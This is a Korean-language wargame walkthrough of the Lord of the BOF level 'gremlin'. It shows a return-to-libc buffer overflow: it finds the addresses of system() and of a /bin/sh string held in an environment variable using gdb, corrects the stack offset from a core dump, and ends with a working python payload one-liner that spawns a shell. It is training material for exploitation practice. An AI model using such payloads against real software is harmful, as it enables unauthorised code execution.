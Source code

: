 # LOB - gate (RTL)

### /bin/bash2 는 보호가 되어있으므로 /bin/sh를 사용해야한다. - 없으면 export BBB="/bin/sh"   이런 명령어로 환경변수 추가하고 시작

- tmp 디렉터리로 가서 gdb로 gremlin을 본다.
- system 함수와 /bin/sh의 주소만 알면된다.

![1568134864528](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134864528.png)

main 함수에 breakpoint를 걸고 실행 후, system의 주소를 출력한다.

```ㅊ
b *main
r
p system
```

![1568133491885](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568133491885.png)



libc가 보인다.(libc는 무조건 있다.) 이 안에는 system이 있고, system에는 /bin/sh 가 있다.



우리는 이 system 함수 주소와 /bin/sh 의 주소를 사용하면 된다.

![1568133593933](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568133593933.png)



쭉 찾아보는데 잘 보이지 않으므로, 환경변수에 추가했다.

![1568133643992](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568133643992.png)



다시 gdb를 들어간다.

```ㅊ
b *main
r aaaa	--> gremlin은 argv 인자가 필요하므로, argv 인자를 줌
si
ni
x/2ws $ebp
```

![1568133876050](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568133876050.png)

![1568133895079](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568133895079.png)



- 이 중 x/2ws $ebp 명령어를 통해 나오는 값들은 

![1568134829679](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134829679.png)

이렇게 이다.



env의 값들을 보면

```c
x/10wx 0xbffffb70
```

![1568134224079](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134224079.png)

이렇게 쭉 있는데 그 중 첫번째부터 쭉 보았다.



```ㅊ
x/100s 0xbffffc71
```

![1568134351208](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134351208.png)

0xbffffc84에 내가 환경변수에 추가한 BINSH=/bin/sh 가 있다.



```ㅊ
x/s 0xbffffc84
```

![1568134418033](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134418033.png)



근데 내가 필요한 부분은 /bin/sh 이므로

BINSH= 의 6바이트만큼 더해서 /bin/sh만 나타낸다.

![1568134471342](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134471342.png)



---

그러면 지금 system 함수의 주소인 0x40058ae0과

![1568134540288](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134540288.png)

/bin/sh의 주소인 0xbffffc84+6 을 구했다.

![1568134471342](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568134471342.png)

0xbffffc8a



그럼 gremlin.c 는

![1568135017123](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568135017123.png)

이므로

buffer와 SFP 크기의 합인 260바이트를 dummy로 채우고,

main 함수의 RET 을 system 함수의 주소

system 함수의 RET을 dummy

그리고 argv에 /bin/sh 문자열의 주소를 넣으면 된다.





----------------

system 함수 주소 : 0x40058ae0

/bin/sh 문자열의 주소 : 0xbffffc8a

```c
./gremlin `python -c 'print "a"*260+"\xe0\x8a\x05\x40"+"\x61\x61\x61\x61"+"\x8a\xfc\xff\xbf"'`
```

![1568136000398](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136000398.png)

segmentation fault 가 뜬다.



다시 gdb를 들어가서 보면

```ㅊ
gdb gremlin
b *main
r `python -c 'print "a"*260+"\xe0\x8a\x05\x40"+"\x61\x61\x61\x61"+"\x8a\xfc\xff\xbf"'`
si	// 기본 gdb가 이상해서 main에서 ni를 하면 main이 끝나므로 si 사용
dias main
```

![1568136057091](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136057091.png)

![1568136077828](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136077828.png)



```ㅊ
disas main	에서 ret의 주소에 breakpoint 를 건다.
```

![1568136287130](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136287130.png)



```ㅊ
c  //continue 하면 진행된다.
```

![1568136305429](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136305429.png)



여기서 esp를 확인해본다.

```c
x/wx $esp	//system의 주소와 똑같다.
```

![1568136410468](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136410468.png)



엔터를 계속 치면서 보면

![1568136493255](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136493255.png)



- 내가 main의 RET에 넣어두었던 system의 주소
- system 함수의 RET에 넣어둔 dummy 값인 aaaa
- /bin/sh 문자열의 주소인 0xbffffc8a 가 들어가 있다.
- c 를 통해 continue 하면 쉘이 뜬다.





### 근데 안되는 이유는

- gdb를 하면 환경변수 위치가 조금씩 달라지기 때문이다.



core를 들어가서 확인해본다. 

main함수의 RET에 넣어둔 system 의 주소는 stack 아래부분에 있으므로 바뀌지 않아서 그냥 두고 /bin/sh 문자열의 주소만 찾아서 바꾸면 된다.



- **위에서는 x/wx $esp 했을 때 system 의 주소가 나왔지만,**

  **core 에서 x/wx $esp 했을 때 /bin/sh 문자열의 주소가 나오는 이유는** 

  **환경변수가 gdb를 실행 할때마다 조금씩 달라지기 때문이다.**



```ㅊ
gdb -c core
x/wx $esp
x/s 0xbffffc8a	--> /bin/sh 문자열의 주소
```

![1568136774197](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136774197.png)



/bin/sh가 들어가 있어야할 위치인 0xbffffc8a 에 다른 값이 들어가 있다.

이를 찾기 위해

```ㅊ
x/s 0xbffffc8a-0x100	명령어를 사용했다.
```

![1568136992992](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568136992992.png)



BINSH=/bin/sh 가 0xbffffc73 에 있다.

내가 필요한 부분은 /bin/sh 이므로 6바이트를 더한다.

0xbffffc79



/bin/sh 문자열의 주소를 바꿔서 하면

![1568137087557](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568137087557.png)

/sh를 찾을 수 없다고 나온다.



그러면 /bin 이 사라진거니까 4바이트를 빼서

0xbffffc75 로 바꿔준다.

```ㅊ
./gremlin `python -c 'print "a"*260+"\xe0\x8a\x05\x40\x61\x61\x61\x61"+"\x75\xfc\xff\xbf"'`
```

![1568137174300](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1568137174300.png)



쉘이 떴다.